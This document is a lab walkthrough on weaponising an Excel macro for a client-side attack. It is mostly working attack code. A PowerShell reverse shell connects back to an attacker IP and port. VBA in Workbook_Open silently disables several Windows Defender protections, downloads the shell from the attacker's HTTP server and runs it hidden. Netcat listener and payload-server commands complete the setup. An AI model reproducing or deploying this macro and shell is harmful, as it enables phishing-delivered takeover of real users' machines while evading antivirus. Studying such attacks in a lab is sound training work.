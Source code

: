 In this lab, we will be going through how to use embedded Excel Macros, to carry out a malicious client side exploit on a target machine.

Excel macros are automated tasks created using VBA (Visual Basic for Applications) in Excel. They simplify repetitive tasks by running pre-written code, either recorded or manually coded, to perform actions automatically within Excel.

Reverse powershell script:
```powershell
echo '$LHOST = "192.168.100.100"; $LPORT = 2222; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()' > 'C:\Users\Administrator\Desktop\Malicious Files\revshell.ps1'
```
# Creating the VBA Script
Excel macros run inside Visual Basic for Applications (VBA). When you wire code to the Workbook_Open event, that code fires the moment the user opens the file and clicks Enable Content.

The VBA script that will disable Windows Defender:
```
Private Sub Workbook_Open()
    Call RunPowerShellScript
End Sub

Sub RunPowerShellScript()
' Define the PowerShell script to disable Windows Defender, download the reverse shell, and execute
Dim command As String
command = "powershell.exe -nop -w hidden -command ""& {Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableBehaviorMonitoring $true; Set-MpPreference -DisableBlockAtFirstSeen $true; Set-MpPreference -DisableIOAVProtection $true; Set-MpPreference -DisablePrivacyMode $true; Invoke-WebRequest -Uri http://192.168.100.100:8000/revshell.ps1 -OutFile C:\Users\Administrator\revshell.ps1; }"""
command2 = "powershell.exe -nop -w hidden -command ""& {Start-Sleep -Seconds 5; Start-Process powershell -ArgumentList '-NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Users\Administrator\revshell.ps1'}"""

' Run the PowerShell script
Shell "cmd.exe /c " & command, vbHide
Shell "cmd.exe /c " & command2, vbHide
End Sub
```

# Setting up Listener and Payload Server
On the first terminal window, start a _NetCat_ listener on port _2222_:
`.\nc64.exe -lvp 2222`

In the second terminal window, we'll set up a Python server on port _8000_, simulating a scenario where the victim receives a link and visits it, which will direct them to our hosted server. This will enable the file to be downloaded directly onto the _Target Machine_.
`python -m http.server 8000`

Once the server is running, switch to the _Target Machine_ to simulate the victim opening the malicious Excel file.

After the download is complete, simply open the file, and click on _Enable Editing_. Within a few seconds, you should observe a PowerShell terminal briefly open and close, indicating that the PowerShell script has been successfully downloaded and executed.

And then you get the reverse shell.

